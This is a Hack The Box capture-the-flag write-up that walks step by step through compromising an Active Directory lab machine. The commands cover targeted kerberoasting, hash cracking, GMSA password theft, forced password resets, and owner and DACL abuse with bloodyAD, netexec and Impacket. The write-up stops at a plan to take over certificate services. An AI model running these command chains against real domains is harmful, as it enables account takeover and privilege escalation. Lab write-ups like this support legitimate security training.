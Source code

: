 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine
![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred
`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball
`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`
![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec
`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`
![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 
![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.

